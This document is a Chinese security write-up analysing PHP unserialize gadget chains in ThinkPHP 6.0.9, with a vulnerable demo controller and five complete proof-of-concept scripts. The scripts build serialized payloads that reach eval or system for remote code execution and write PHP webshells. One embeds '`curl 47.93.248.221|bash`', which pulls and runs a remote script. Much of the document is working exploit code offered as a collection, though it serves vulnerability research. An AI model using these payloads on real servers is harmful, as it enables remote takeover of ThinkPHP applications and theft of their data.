# 前言

其实这条链子在6.0.7的时候就有师傅发了出来,只是在6.0.9的版本中并没有修这条链子,而且之前复现的是6.0.1的比较低版本的,就想跟着师傅的文章分析一遍这个新的toString后半链,再加上一点自己之前找的其他触发toString的点做一个POC的收集

# 环境搭建

直接用composer安装

```
composer create-project topthink/think tp6.0.9  --prefer-dist
```

app/controller/Index.php控制器

```
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        if(isset($_POST['data'])){
            unserialize(base64_decode($_POST['data']));
        }else{
            highlight_file(__FILE__);
        }
    }
}
```

# 第一条链子

## 漏洞分析

入口点:vendor\topthink\think-orm\src\Model.php


和之前的链子一样,但是到6.0.9的版本之前后面toString的链子已经不能用了,不过可以去寻找其他的toString

还是一样的方法跟进到db方法

`$this->lazySave`参数可控,进入if调用save函数

跟进save()

```
public function save(array $data = [], string $sequence = null): bool
{
    // 数据对象赋值
    $this->setAttrs($data);

    if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
        return false;
    }

    $result = $this->exists ? $this->updateData() : $this->insertData($sequence);

    if (false === $result) {
        return false;
    }

    // 写入回调
    $this->trigger('AfterWrite');

    // 重新记录原始数据
    $this->origin   = $this->data;
    $this->set      = [];
    $this->lazySave = false;

    return true;
}
```

发现这句语句

```
$result = $this->exists ? $this->updateData() : $this->insertData($sequence);
```

不过要执行到这句语句需要满足一个if判断条件,否则会直接返回false

```
if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
        return false;
    }
```

跟进isEmpty()



`$this->data`只要不为空即可,然后`$this->trigger('BeforeWrite')`的值需要为true

跟进trigger()



直接让`$this->withEvent`的值为false进入if返回true即可

这样就执行到了三目运算符语句

```
$result = $this->exists ? $this->updateData() : $this->insertData($sequence);
```

分别跟进`updateData`和`insertData`去寻找可利用的地方

跟进updateData

```
protected function updateData(): bool
{
    // 事件回调
    if (false === $this->trigger('BeforeUpdate')) {
        return false;
    }

    $this->checkData();

    // 获取有更新的数据
    $data = $this->getChangedData();

    if (empty($data)) {
        // 关联更新
        if (!empty($this->relationWrite)) {
            $this->autoRelationUpdate();
        }

        return true;
    }

    if ($this->autoWriteTimestamp && $this->updateTime && !isset($data[$this->updateTime])) {
        // 自动写入更新时间
        $data[$this->updateTime]       = $this->autoWriteTimestamp($this->updateTime);
        $this->data[$this->updateTime] = $data[$this->updateTime];
    }

    // 检查允许字段
    $allowFields = $this->checkAllowFields();

    foreach ($this->relationWrite as $name => $val) {
        if (!is_array($val)) {
            continue;
        }

        foreach ($val as $key) {
            if (isset($data[$key])) {
                unset($data[$key]);
            }
        }
    }

    // 模型更新
    $db = $this->db();
    $db->startTrans();

    try {
        $this->key = null;
        $where     = $this->getWhere();

        $result = $db->where($where)
            ->strict(false)
            ->cache(true)
            ->setOption('key', $this->key)
            ->field($allowFields)
            ->update($data);

        $this->checkResult($result);

        // 关联更新
        if (!empty($this->relationWrite)) {
            $this->autoRelationUpdate();
        }

        $db->commit();

        // 更新回调
        $this->trigger('AfterUpdate');

        return true;
    } catch (\Exception $e) {
        $db->rollback();
        throw $e;
    }
}
```

和之前复现的一样,下一个利用点是`checkAllowFields`

但是要进入并调用该函数，需要先通过前面两处的if语句



第一个if我们开始已经让`$this->trigger()`的返回值为true了,不用进入这个if

第二个if要判断$data是否为空,这就要跟进getChangeData去看看了

跟进getChangeData



值需要让`$this->force`为true就可以直接返回可控的`$data`,然后不为空就可以不用进入第二个if

跟进一下`checkAllowFields`

```
protected function checkAllowFields(): array
{
    // 检测字段
    if (empty($this->field)) {
        if (!empty($this->schema)) {
            $this->field = array_keys(array_merge($this->schema, $this->jsonType));
        } else {
            $query = $this->db();
            $table = $this->table ? $this->table . $this->suffix : $query->getTable();

            $this->field = $query->getConnection()->getTableFields($table);
        }

        return $this->field;
    }

    $field = $this->field;

    if ($this->autoWriteTimestamp) {
        array_push($field, $this->createTime, $this->updateTime);
    }

    if (!empty($this->disuse)) {
        // 废弃字段
        $field = array_diff($field, $this->disuse);
    }

    return $field;
}
```

当`$this->field`不为空并且`$this->schema`为空的时候可以调用db函数



跟进db



$this->table可控,字符拼接去调用toString

toString方法位于vendor\topthink\framework\src\think\route\Url.php

```
public function __toString()
{
    return $this->build();
}
```

跟进build

```
public function build()
{
    // 解析URL
    $url     = $this->url;
    $suffix  = $this->suffix;
    $domain  = $this->domain;
    $request = $this->app->request;
    $vars    = $this->vars;

    if (0 === strpos($url, '[') && $pos = strpos($url, ']')) {
        // [name] 表示使用路由命名标识生成URL
        $name = substr($url, 1, $pos - 1);
        $url  = 'name' . substr($url, $pos + 1);
    }

    if (false === strpos($url, '://') && 0 !== strpos($url, '/')) {
        $info = parse_url($url);
        $url  = !empty($info['path']) ? $info['path'] : '';

        if (isset($info['fragment'])) {
            // 解析锚点
            $anchor = $info['fragment'];

            if (false !== strpos($anchor, '?')) {
                // 解析参数
                [$anchor, $info['query']] = explode('?', $anchor, 2);
            }

            if (false !== strpos($anchor, '@')) {
                // 解析域名
                [$anchor, $domain] = explode('@', $anchor, 2);
            }
        } elseif (strpos($url, '@') && false === strpos($url, '\\')) {
            // 解析域名
            [$url, $domain] = explode('@', $url, 2);
        }
    }

    if ($url) {
        $checkName   = isset($name) ? $name : $url . (isset($info['query']) ? '?' . $info['query'] : '');
        $checkDomain = $domain && is_string($domain) ? $domain : null;

        $rule = $this->route->getName($checkName, $checkDomain);

        if (empty($rule) && isset($info['query'])) {
            $rule = $this->route->getName($url, $checkDomain);
            // 解析地址里面参数 合并到vars
            parse_str($info['query'], $params);
            $vars = array_merge($params, $vars);
            unset($info['query']);
        }
    }

    if (!empty($rule) && $match = $this->getRuleUrl($rule, $vars, $domain)) {
        // 匹配路由命名标识
        $url = $match[0];

        if ($domain && !empty($match[1])) {
            $domain = $match[1];
        }

        if (!is_null($match[2])) {
            $suffix = $match[2];
        }
    } elseif (!empty($rule) && isset($name)) {
        throw new \InvalidArgumentException('route name not exists:' . $name);
    } else {
        // 检测URL绑定
        $bind = $this->route->getDomainBind($domain && is_string($domain) ? $domain : null);

        if ($bind && 0 === strpos($url, $bind)) {
            $url = substr($url, strlen($bind) + 1);
        } else {
            $binds = $this->route->getBind();

            foreach ($binds as $key => $val) {
                if (is_string($val) && 0 === strpos($url, $val) && substr_count($val, '/') > 1) {
                    $url    = substr($url, strlen($val) + 1);
                    $domain = $key;
                    break;
                }
            }
        }

        // 路由标识不存在 直接解析
        $url = $this->parseUrl($url, $domain);

        if (isset($info['query'])) {
            // 解析地址里面参数 合并到vars
            parse_str($info['query'], $params);
            $vars = array_merge($params, $vars);
        }
    }

    // 还原URL分隔符
    $depr = $this->route->config('pathinfo_depr');
    $url  = str_replace('/', $depr, $url);

    $file = $request->baseFile();
    if ($file && 0 !== strpos($request->url(), $file)) {
        $file = str_replace('\\', '/', dirname($file));
    }

    $url = rtrim($file, '/') . '/' . $url;

    // URL后缀
    if ('/' == substr($url, -1) || '' == $url) {
        $suffix = '';
    } else {
        $suffix = $this->parseSuffix($suffix);
    }

    // 锚点
    $anchor = !empty($anchor) ? '#' . $anchor : '';

    // 参数组装
    if (!empty($vars)) {
        // 添加参数
        if ($this->route->config('url_common_param')) {
            $vars = http_build_query($vars);
            $url .= $suffix . ($vars ? '?' . $vars : '') . $anchor;
        } else {
            foreach ($vars as $var => $val) {
                $val = (string) $val;
                if ('' !== $val) {
                    $url .= $depr . $var . $depr . urlencode($val);
                }
            }

            $url .= $suffix . $anchor;
        }
    } else {
        $url .= $suffix . $anchor;
    }

    // 检测域名
    $domain = $this->parseDomain($url, $domain);

    // URL组装
    return $domain . rtrim($this->root, '/') . '/' . ltrim($url, '/');
}
```

这个方法很多东西,挨着跟,这些参数都是可控的

```
$url = $this->url;
$suffix  = $this->suffix;
$domain  = $this->domain;
$request = $this->app->request;
$vars    = $this->vars;
```

在build方法里面存在这样两条条语句

```
$rule = $this->route->getName($checkName, $checkDomain);
$bind = $this->route->getDomainBind($domain && is_string($domain) ? $domain : null);
```

这里想到去调用任意类的call方法,由于getName的参数不可控,所以这里选择了参数可控的getDomainBind函数

寻找可用的call方法定位到vendor\topthink\framework\src\think\Validate.php



`$args`是可控的`$domain`和方法名

这个call方法返回了应该call_user_func_array调用了此类的is方法

跟进is

```
public function is($value, string $rule, array $data = []): bool
{
    switch (Str::camel($rule)) {
        case 'require':
            // 必须
            $result = !empty($value) || '0' == $value;
            break;
        case 'accepted':
            // 接受
            $result = in_array($value, ['1', 'on', 'yes']);
            break;
        case 'date':
            // 是否是一个有效日期
            $result = false !== strtotime($value);
            break;
        case 'activeUrl':
            // 是否为有效的网址
            $result = checkdnsrr($value);
            break;
        case 'boolean':
        case 'bool':
            // 是否为布尔值
            $result = in_array($value, [true, false, 0, 1, '0', '1'], true);
            break;
        case 'number':
            $result = ctype_digit((string) $value);
            break;
        case 'alphaNum':
            $result = ctype_alnum($value);
            break;
        case 'array':
            // 是否为数组
            $result = is_array($value);
            break;
        case 'file':
            $result = $value instanceof File;
            break;
        case 'image':
            $result = $value instanceof File && in_array($this->getImageType($value->getRealPath()), [1, 2, 3, 6]);
            break;
        case 'token':
            $result = $this->token($value, '__token__', $data);
            break;
        default:
            if (isset($this->type[$rule])) {
                // 注册的验证规则
                $result = call_user_func_array($this->type[$rule], [$value]);
            } elseif (function_exists('ctype_' . $rule)) {
                // ctype验证规则
                $ctypeFun = 'ctype_' . $rule;
                $result   = $ctypeFun($value);
            } elseif (isset($this->filter[$rule])) {
                // Filter_var验证规则
                $result = $this->filter($value, $this->filter[$rule]);
            } else {
                // 正则验证
                $result = $this->regex($value, $rule);
            }
    }

    return $result;
}
```

```
public function is($value, string $rule, array $data = []): bool
```

这里的`$value`是原本的`$domain`,`$rule`是`"getDomainBind"`

所以Switch选择语句进入default

这里`$this->type[$rule]`相当于`$this->type['getDomainBind']`,可以控制然后去调用任意类的任意方法,参数是之前的`$domain`

在vendor\topthink\framework\src\think\view\driver\Php.php下找到了应该display方法

```
public function display(string $content, array $data = []): void
{
    $this->content = $content;

    extract($data, EXTR_OVERWRITE);
    eval('?>' . $this->content);
}
```

直接执行了当前传进来的参数,那`$domain=<?php system('whoami');?>`就可以执行相应的命令

## 漏洞复现

需要注意的是build方法里面的几个if判断,利用可控的值去进入相应的if语句

要想不进入调用getName的那个if语句

`if ($url)`就要为假,那就让`$url`为空,让他为空要利用下面的代码

```
if (false === strpos($url, '://') && 0 !== strpos($url, '/')) {
    $info = parse_url($url);
    $url  = !empty($info['path']) ? $info['path'] : '';
```

传入一个`$url="a:"`利用这里把他替换为空

`$this->app` = `给个public的request属性的任意类`

```
<?php

namespace think {

    use think\route\Url;

    abstract class Model
    {
        private $lazySave;
        private $exists;
        protected $withEvent;
        protected $table;
        private $data;
        private $force;
        public function __construct()
        {
            $this->lazySave = true;
            $this->withEvent = false;
            $this->exists = true;
            $this->table = new Url();
            $this->force = true;
            $this->data = ["1"];
        }
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
        function __construct()
        {
            parent::__construct();
        }
    }
    $b = new Pivot();
    echo base64_encode(serialize($b));
}

namespace think\route {

    use think\Middleware;
    use think\Validate;

    class Url
    {
        protected $url;
        protected $domain;
        protected $app;
        protected $route;
        public function __construct()
        {
            $this->url = 'a:';
            $this->domain = "<?php system('whoami');?>";
            $this->app = new Middleware();
            $this->route = new Validate();
        }
    }
}

namespace think {

    use think\view\driver\Php;

    class Validate
    {
        public function __construct()
        {
            $this->type['getDomainBind'] = [new Php(), 'display'];
        }
    }
    class Middleware
    {
        public function __construct()
        {
            $this->request = "2333";
        }
    }
}

namespace think\view\driver {
    class Php
    {
        public function __construct()
        {
        }
    }
}

```




# 第二条链子

## 漏洞分析

因为在tp6.0.9中已经抛弃了6.0x反序列化我们利用的toString后面的gadget了,不过在上一条链子已经看到了师傅发掘的另外的toString链,于是和之前一样只要找到可以调用toString的点,就能进行rce

寻找其他的入口点

```
vendor\league\flysystem-cached-adapter\src\Storage\AbstractCache.php
```



跟进save,这是一个抽象类,所以我们应该到其子类去寻找可用的save方法



```
src/think/filesystem/CacheStore.php
```



其实我看了看另外几个save方法,就这个最简单了

`$this->store`可控,可以去调用任意类的set方法,没有则调用`__call`

这里先出发去找可用的set方法

定位到`src/think/cache/driver/File.php`

```
public function set($name, $value, $expire = null): bool
{
    $this->writeTimes++;

    if (is_null($expire)) {
        $expire = $this->options['expire'];
    }

    $expire   = $this->getExpireTime($expire);
    $filename = $this->getCacheKey($name);

    $dir = dirname($filename);

    if (!is_dir($dir)) {
        try {
            mkdir($dir, 0755, true);
        } catch (\Exception $e) {
            // 创建失败
        }
    }

    $data = $this->serialize($value);

    if ($this->options['data_compress'] && function_exists('gzcompress')) {
        //数据压缩
        $data = gzcompress($data, 3);
    }

    $data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
    $result = file_put_contents($filename, $data);

    if ($result) {
        clearstatcache();
        return true;
    }

    return false;
}
```

跟进getExpireTime



发现没什么可用的

跟进getCacheKey



这里其实就是为了查看进入该方法是否出现错误或者直接`return`了

所以这里`$this->options['hash_type']`不能为空

返回了一个字符拼接的值,`$this->options['path']`可控,又可以去调用上一条链子的`__toString`

## 漏洞复现

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave;
        public function __construct()
        {
            $this->autosave = false;
        }
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $expire;
        protected $key;
        public function __construct()
        {
            $this->store = new File();
            $this->expire = 1;
            $this->key = '1';
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {

    use think\route\Url;

    abstract class Driver
    {
        protected $options = [
            'expire' => 0,
            'cache_subdir' => true,
            'prefix' => '',
            'path' => '',
            'hash_type' => 'md5',
            'data_compress' => false,
            'tag_prefix' => 'tag:',
            'serialize' => ['system'],
        ];
        public function __construct()
        {
            $this->options = [
                'expire' => 0,
                'cache_subdir' => true,
                'prefix' => '',
                'path' => new Url(),
                'hash_type' => 'md5',
                'data_compress' => false,
                'tag_prefix' => 'tag:',
                'serialize' => ['system'],
            ];
        }
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
    }
}

namespace think\route {

    use think\Middleware;
    use think\Validate;

    class Url
    {
        protected $url;
        protected $domain;
        protected $app;
        protected $route;
        public function __construct()
        {
            $this->url = 'a:';
            $this->domain = "<?php system('whoami');?>";
            $this->app = new Middleware();
            $this->route = new Validate();
        }
    }
}

namespace think {

    use think\view\driver\Php;

    class Validate
    {
        public function __construct()
        {
            $this->type['getDomainBind'] = [new Php(), 'display'];
        }
    }
    class Middleware
    {
        public function __construct()
        {
            $this->request = "2333";
        }
    }
}

namespace think\view\driver {
    class Php
    {
        public function __construct()
        {
        }
    }
}

```

# 第三条链子

POC

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "`curl 47.93.248.221|bash`";
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key = "1";
        public function __construct()
        {
            $this->store = new File();
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {
    abstract class Driver
    {
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => true,
            'prefix'        => '',
            'path'          => '',
            'hash_type'     => 'md5',
            'data_compress' => false,
            'tag_prefix'    => 'tag:',
            'serialize'     => ['system'],
        ];
    }
}

```

# 第四条链子

POC

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "aaaPD9waHAgcGhwaW5mbygpOz8+";
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key = "1";
        public function __construct()
        {
            $this->store = new File();
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {
    abstract class Driver
    {
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
        protected $options = [
            'expire'        => 1,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'php://filter/write=convert.base64-decode/resource=',
            'hash_type'     => 'md5',
            'data_compress' => false,
            'tag_prefix'    => 'tag:',
            'serialize'     => ['trim']
        ];
    }
}

```

# 第五条链子

POC

```
<?php

namespace League\Flysystem\Cached\Storage;

abstract class AbstractCache
{
    protected $autosave = false;
    protected $cache = ['<?php phpinfo();?>'];
}


namespace League\Flysystem\Cached\Storage;

class Adapter extends AbstractCache
{
    protected $adapter;
    protected $file;

    public function __construct($obj)
    {
        $this->adapter = $obj;
        $this->file = 'DawnT0wn.php';
    }
}


namespace League\Flysystem\Adapter;

abstract class AbstractAdapter
{
}


namespace League\Flysystem\Adapter;

use League\Flysystem\Cached\Storage\Adapter;
use League\Flysystem\Config;

class Local extends AbstractAdapter
{

    public function has($path)
    {
    }

    public function write($path, $contents, Config $config)
    {
    }
}

$a = new Local();
$b = new Adapter($a);
echo base64_encode(serialize($b));

```


之前复现过6.0x的thinkphp反序列化,后面三条链子并没有修,还是能够打通的,就没有写分析了这里主要是去复现了新的toString的Gadget,触发点还是有几个,这里没有写完,只要找到操作可控字符串的点就能触发

后三条链的具体的分析可以到https://www.anquanke.com/post/id/258567这里去看

参考链接

https://xz.aliyun.com/t/9310

https://www.anquanke.com/post/id/258567

